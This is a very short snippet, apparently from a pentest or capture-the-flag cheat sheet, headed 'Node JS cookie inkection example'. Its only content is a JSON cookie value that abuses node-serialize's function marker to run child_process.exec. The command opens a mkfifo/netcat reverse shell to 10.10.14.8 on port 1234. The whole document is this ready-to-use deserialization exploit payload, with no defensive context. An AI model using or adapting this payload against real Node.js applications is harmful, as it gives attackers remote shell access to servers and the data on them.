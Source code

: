 ## Node JS cookie inkection example

```
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f', function(error, stdout, stderr) {console.log(stdout) })","country":"Lameville","city":"Lametown","num":"2"}
```